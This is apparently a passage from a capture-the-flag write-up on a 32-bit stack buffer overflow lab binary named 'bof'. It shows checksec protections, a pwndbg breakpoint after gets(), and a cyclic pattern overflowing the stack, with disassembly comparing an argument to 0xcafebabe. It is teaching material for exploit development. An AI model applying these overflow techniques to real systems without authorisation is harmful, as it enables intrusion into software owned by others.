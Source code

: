 It seems like there is a stack canary, let's verify using `checksec`.

```
bof@ubuntu:~$ checksec ./bof
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/home/bof/bof'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

We can see what the canary value is using GDB.
Let's set a breakpoint right after `gets()` reads our input.

```
pwndbg> break *(func+60)
Breakpoint 1 at 0x1239
```

Now, we can run the program again and provide our cyclic pattern.

```
pwndbg> run
Starting program: /home/bof/bof
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
overflow me : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 1, 0x56556239 in func ()
Disabling the emulation via Unicorn Engine that is used for computing branches as there isn't enough memory (1GB) to use it (since mmap(1G, RWX) failed). See also:
* https://github.com/pwndbg/pwndbg/issues/1534
* https://github.com/unicorn-engine/unicorn/pull/1743
Either free your memory or explicitly set `set emulate off` in your Pwndbg config
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────
 EAX  0xffffd4bc ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EBX  0x56559000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x3efc
 ECX  0xf7fa89c0 (_IO_stdfile_0_lock) ◂— 0
 EDX  1
 EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
 ESI  0xffffd5d4 —▸ 0xffffd72c ◂— '/home/bof/bof'
 EBP  0xffffd4e8 ◂— 'laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 ESP  0xffffd4a0 —▸ 0xffffd4bc ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
 EIP  0x56556239 (func+60) ◂— add esp, 0x10
────────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate off ]─────────────────────────────────────────────────────────────────────────────────────
 ► 0x56556239 <func+60>    add    esp, 0x10                           ESP => 0xffffd4a0 + 0x10
   0x5655623c <func+63>    cmp    dword ptr [ebp + 8], 0xcafebabe
   0x56556243 <func+70>    jne    func+117                    <func+117>

   0x56556245 <func+72>    call   getegid@plt                 <getegid@plt>

   0x5655624a <func+77>    mov    esi, eax
   0x5655624c <func+79>    call   getegid@plt                 <getegid@plt>

   0x56556251 <func+84>    sub    esp, 8
   0x56556254 <func+87>    push   esi
```